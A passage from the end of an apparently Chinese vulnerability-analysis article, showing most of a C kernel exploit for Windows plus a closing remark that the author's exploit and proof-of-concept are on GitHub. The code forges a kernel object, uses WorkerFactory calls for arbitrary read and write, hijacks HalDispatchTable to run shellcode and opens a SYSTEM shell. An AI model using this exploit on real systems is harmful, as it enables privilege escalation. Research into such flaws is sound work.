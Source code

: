 ```
    memcpy(WorkerFactory, ObjHead, 0x28); 
 
    //任意读的地址  *(*(obj+0x64)+0xB4) = MyHalDispatchTable + 4 
    PBYTE pObj = WorkerFactory + 0x28; 
    *(DWORD*)(pObj + 0x64) = MyHalDispatchTable - 0xB4 + 4; 
 
    //任意写   把 *arg3 的内容 写入到  *( *(*object+0x10)+0x1C ) 
    //*(*object+0x10)+0x1C = MyHalDispatchTable + 4 
    //因为 *object 所以没办法在本对象内构造数据  
    //所以需要另一个内存来构造数据 
    BYTE y[0x14] = { 0 }; 
    *(DWORD*)pObj = (DWORD)y; 
    PBYTE py = y; 
    //现在有一个内存y    *(y + 0x10) + 0x1C = MyHalDispatchTable + 4 
    //所以 *(y+0x10) = MyHalDispatchTable + 4 - 0x1C  即可 
    *(DWORD*)(py + 0x10) = MyHalDispatchTable + 4 - 0x1C; 
 
    //现在把伪造的对象拷贝到释放掉的内存 
    IO_STATUS_BLOCK IoStatus; 
    MyNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, 0, 0, 0, WorkerFactory, 0xA0 - 0x4, 0, 0); 
 
    //读 oldHaliQuerySystemInformation 
    //内核会返回0x60自己的数据  需要的数据被放在  kernelRetMem+0x50 
    BYTE kernelRetMem[0x60] = { 0 }; 
    MyNtQueryInformationWorkerFactory(hWorkerFactory, 7, kernelRetMem, 0x60, NULL); 
    oldHaliQuerySystemInformation = *(DWORD*)(kernelRetMem + 0x50); 
 
    //写shellcode地址到HalDispatchTable + 4 
    DWORD scAddr = (DWORD)Shellcode; 
    MyNtSetInformationWorkerFactory(hWorkerFactory, 8, &scAddr, 4); 
 
    //调用shellcode 
    DWORD Interval; 
    MyNtQueryIntervalProfile(2, &Interval); 
 
    //提权后创建一个system权限的cmd 
    ShellExecuteA(NULL, "open", "cmd.exe", NULL, NULL, SW_SHOW); 
 
    system("pause"); 
    return 0; 
} 
```

写在最后
====

其实这篇文章今年 3 月份的时候就已经开始写了， 期间因为手头的事情太多， 中间搁置了好长一段时间。后来发现近期又有好几篇这个漏洞的分析文章，于是就又捡起来写完， 算是凑个热闹。

 

写作过程中参考了很多前辈的文章， 也引用了部分前人的分析成果。本文涉及到的 afd.idb、Exploit.c、Poc.c 均已上传到 Github 参考 3。

 
